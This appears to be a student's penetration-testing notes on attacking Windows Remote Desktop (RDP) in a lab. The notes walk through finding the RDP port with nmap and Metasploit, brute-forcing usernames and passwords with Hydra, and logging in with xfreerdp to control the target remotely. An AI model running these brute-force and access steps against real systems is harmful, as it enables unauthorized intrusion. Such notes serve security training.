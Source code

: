 #### Exploiting RDP
- The Remote Desktop Protocol is a proprietary GUI  remote access protocol developed by Microsoft and is used to remotely connect and interact with windows system.
- RDP uses TCP PORT 3389 by default,and can also be configured to run on any other TCP port.
- RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
- we can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

#### Exploit
- nmap -sV 10.10.10.12[ confirmation for rdp,rdp can run any port]
- service postgresql start
- msfconsole
- search rdp_scanner
- use auxiliary/scanner/rdp/rdp_scanner
- set all requires options [ it can confirm setting different different port to which one is actual port for rdp if port is not default]
- run 
- this will confirm which rdp port and versions
##### Hydra
- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.24.86 -s 3333 [brute force for user name and password,we need to set -s options for setting port as it is not using default port]
- from this we get password and user
##### xfreerdp 
- xfreedrp /u:adminitrator /p:qwertyuiop /v:10.10.10.12:3333 [here u:username p:password]
- this will give us a GUI to control victim pc remotely.
#### Note 
- others rdp clients are remmina,rdesktop,krdc etc.
